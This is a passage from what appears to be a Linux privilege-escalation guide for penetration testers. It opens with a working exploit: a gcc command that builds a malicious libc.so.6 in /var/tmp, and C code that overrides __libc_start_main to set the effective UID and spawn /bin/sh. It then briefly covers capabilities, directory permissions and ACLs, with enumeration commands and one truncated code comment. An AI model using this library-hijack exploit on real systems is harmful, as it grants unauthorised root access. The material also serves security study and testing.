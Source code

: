 Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```c
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```

## Capabilities

Linux capabilities provide a **subset of the available root privileges to a process**. This effectively breaks up root **privileges into smaller and distinctive units**. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.\
Read the following page to **learn more about capabilities and how to abuse them**:

{% content-ref url="linux-capabilities.md" %}
[linux-capabilities.md](linux-capabilities.md)
{% endcontent-ref %}

## Directory permissions

In a directory the **bit for execute** implies that the user affected can "**cd**" into the folder.\
The **read** bit implies the user can **list** the **files**, and the **write** bit implies the user can **delete** and **create** new **files**.

## ACLs

ACLs are a second level of discretionary permissions, that **may override the standard ugo/rwx** ones. When used correctly they can grant you a **better granularity in setting access to a file or a directory**, for example by giving or denying access to a specific user that is neither the file owner, nor in the group owner (from [**here**](https://linuxconfig.org/how-to-manage-acls-on-linux)).\
**Give** user "kali" read and write permissions over a file:

```bash
setfacl -m u:kali:rw file.txt
#Set it in /etc/sudoers or /etc/sudoers.d/README (if the dir is includ

setfacl -b file.txt #Remove the ACL of the file
```

**Get** files with specific ACLs from the system:

```bash
getfacl -t -s -R -p /bin /etc /home /opt /root /sbin /usr /tmp 2>/dev/null
```
